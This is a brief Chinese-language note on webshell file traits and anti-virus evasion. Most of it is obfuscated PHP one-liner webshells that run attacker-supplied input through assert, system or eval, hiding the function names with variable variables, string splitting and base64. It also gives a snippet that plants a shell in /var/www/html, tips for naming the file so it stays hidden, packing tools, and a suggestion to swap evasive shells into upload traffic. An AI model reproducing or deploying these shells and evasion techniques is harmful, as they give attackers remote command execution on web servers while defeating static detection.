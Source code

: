 ## **webshell文件特征**

主要是正常匹配一些敏感函数，和特征代码。

木马文件上传防静态查杀检测，做混淆：

```
<?php
  $a='b';
  $b=$GET['e'];
  $$a(SPOST['x']);
?>
//寻找绕过

<?php
  $a='b';
  $b='assert';
  $$a (base64_decode($_POST['x']);
  ?>


//
$XnEGfa = $_GET['Efa5BVG'] ?? ' ';
$aYunX = "sY";
$aYunX .= "stEmXnsTcx";
$aYunX = explode('Xn', $aYunX);
$kDxfM = new stdClass();
$kDxfM->gHht = $aYunX\[0];
($kDxfM->gHht)($XnEGfa);



//免杀一句话:
<?ph'.'p ev'.'al($_PO'.'ST[1]);?>

<?php
$a = '<?ph'.'p ev'.'al($_PO'.'ST[1]);?>';
file_put_contents('/var/www/html/1.php',$a);
?>
```

木马文件名隐藏：
.shell.php在Linux中直接看隐藏看不到。

## **免杀方法**

<https://www.sqlsec.com/2020/07/shell.html>

Shielden进行webshell加壳。

弱鸡webshell免杀工具。

可以参考文章：<https://blog.csdn.net/guanjian_ci/article/details/139295929>
php解密：<https://decode.xiaojieapi.com/decode>

^

在一些工具一键上传文件马的时候可以抓包拦截，替换成免杀马。
